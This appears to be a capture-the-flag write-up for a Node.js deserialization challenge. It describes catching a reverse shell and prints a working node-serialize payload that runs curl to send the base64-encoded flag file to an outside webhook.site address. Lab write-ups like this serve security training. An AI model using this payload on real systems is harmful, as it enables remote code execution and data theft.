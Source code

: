 # Cereal
> This webapp is not my creation and all credit should go to [elbee](https://github.com/elbee-cyber) and their box [Jason](https://tryhackme.com/room/jason)

## Solution
This website is vulnerable to a deserialization attack, as hinted by the challenge name, webpage, and how the requests were being encoded in the webapp. After doing some research, you should encounter some blog post and/or whitepaper like [this one](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and learn how to get code execution. From there, there were two main ways to go about this.
1. Use a VPS, or something like [ngrok](https://ngrok.com/), or (not recommended) forward a port on your router to catch a reverse shell and cat the flag
2. Use your RCE to make GET requests to a url like [webhook.site](https://webhook.site/) so you can see the output of your commands
```js
_$$ND_FUNC$$_function (){\n \t require('child_process').exec('output=$(cat /app/flag* | base64); curl https://webhook.site/4d4960c7-b400-4085-8993-7d0d8a582b0e/`cat /app/flag* | base64`',
function(error, stdout, stderr) { console.log(stdout) });\n }()
```